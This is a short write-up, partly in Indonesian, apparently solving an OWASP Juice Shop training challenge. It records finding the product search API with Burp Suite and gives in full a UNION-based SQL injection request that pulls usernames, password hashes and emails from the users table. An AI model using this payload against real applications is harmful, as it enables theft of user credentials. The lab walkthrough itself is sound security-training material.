

# Soal User Credentials

**Description:** Retrieve a list of all user credentials via SQL Injection.

**Resource:** https://demo.owasp-juice.shop/#/score-board?categories=Injection&showDisabledChallenges=false

## Langkah Pengerjaan:
1. Di awal sebelum web dibuka, saya mencoba mengaktifkan intercept di BurpSuite dan menemukan sebuah request untuk api `GET /rest/products/search?q= HTTP/1.1`

2. Ternyata endpoint ini dimaksudkan untuk mengambil semua data produk yang ada dan sekaligus berhubungan langsung dengan database

3. Kemudian, dengan menambahkan query yang sudah dimodifikasi seperti ini `GET /rest/products/search?q=test'))%20UNION%20SELECT%20username,%20password,%20role,%20deletedAt,%20isActive,%20createdAt,%20id,%20email,%20profileImage%20FROM%20USERS--` saya berhasil mendapatkan daftar kredensial semua user yang terdaftar

Soal ini berhasil diselesaikan dengan mengikuti petunjuk pada write-up di https://github.com/Whyiest/Juice-Shop-Write-up/blob/main/4-stars/user_credentials.md